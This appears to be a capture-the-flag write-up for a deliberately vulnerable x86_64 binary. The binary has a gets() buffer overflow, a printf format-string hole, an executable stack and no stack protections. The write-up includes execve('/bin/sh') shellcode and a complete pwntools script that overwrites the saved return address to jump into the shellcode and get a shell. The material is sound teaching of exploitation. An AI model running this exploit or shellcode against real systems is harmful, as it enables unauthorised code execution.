 
# Challenge

Small x86_64 Linux binary: prints stack, calls `gets(buf)` (32 bytes), `printf(buf)`, prints stack again. Compiled with execstack, no canary, no PIE.

# Vulnerabilities

* **Buffer overflow** via `gets()` — unlimited input into 32‑byte buffer.
* **Format‑string risk** from `printf(buf)` if input contains `%`.

# Observed stack layout

`buf` at `0x7fffffffd810` → 32 bytes; saved RBP at `0x...d830`; saved RIP at `0x...d838` (contained `0x7fffffffd840`).

# Exploit strategy

Overwrite saved RIP with an address that points to attacker-controlled shellcode placed on the stack; return into that shellcode.

# Shellcode 

### one‑line

Classic `execve("/bin/sh", argv, NULL)` — builds `"/bin/sh"` on stack and issues syscall `59`.

### source

```bash
; gcc -nostdlib -o shellcode shellcode.s -masm=intel

.intel_syntax noprefix
.global _start
_start:
    xor rdx, rdx                # rdx = 0 (envp = NULL)

    mov rax, 0x68732f6e69622f2f # "/bin//sh" (temporary into rax)
    push rax                    # push "/bin//sh" on stack
    mov rdi, rsp                # rdi -> "/bin//sh"

    push rdx                    # push NULL terminator for argv
    push rdi                    # push pointer to "/bin//sh"
    mov rsi, rsp                # rsi -> argv (pointer to [rdi, NULL])

    xor rax, rax                # clear rax
    mov al, 59                  # syscall number 59 (execve)
    syscall
```



# Payload 


```python

from pwn import *

chal = ELF('./chal')

context.binary = chal

conn = process([chal.path])

def main():
    
    addr_shellcode = 0x7fffffffd840
    shellcode = asm('''
        .intel_syntax noprefix
        .global _start
    _start:
        xor rdx, rdx
        push rdx
        mov rax, 0x68732f6e69622f
        push rax 
        mov rdi, rsp
        push rdx
        push rdi 
        mov rsi, rsp 
        mov rax, 0x3b
        syscall
    ''', arch = 'amd64')

    payload = b'\0' * 0x20
    payload += p64(0)
    payload += p64(addr_shellcode)
    payload += shellcode
    
    conn.sendlineafter(b'Input: ', payload)
    conn.interactive()

if __name__ == '__main__':
    main()

```

![result](./img/result.png)
